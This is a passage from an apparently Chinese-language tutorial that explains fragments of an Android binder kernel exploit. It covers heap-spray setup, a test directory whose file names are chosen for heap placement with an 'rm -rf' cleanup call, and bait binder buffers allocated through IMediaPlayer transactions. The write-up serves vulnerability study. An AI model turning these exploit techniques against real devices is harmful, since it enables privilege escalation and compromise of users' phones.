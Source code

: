 ```c
	if (fd_guard_heap < 0)
	{
		printf("[-] fd_guard_heap failed\n");
	}
	init_fd_heap_spray();
}

void init_test_dir()
{
	memset(guardBuffer, 0 ,1000);
	system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
	create_test_dir();
	begin_watch();
}
```

这里创建一个test_dir，里面存放fffdfffdfffdfffd,abcd.txt两个文件，至于为什么叫这两个名字，是与堆喷占位有关，稍后再说明

```c
put_baits();
```

接着是放置诱饵，需要提前分配binder_buffer，也就是分配后才能释放；

```c
void put_baits()
{
	//Avoid the reply data to be released by "~Parcel()"
	for (int i = 0; i < BAIT; i++)
	{
		dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
		IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
		gDataArray[i] = replyArray[i].data();
		/*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
		{
			printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
		}*/
		//printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
	}
}

```

它在这里做的是BC_transaction,Br_transaction,Bc_reply,Br_reply指令这个顺序所做的事，也就是正常binder ipc过程，如图
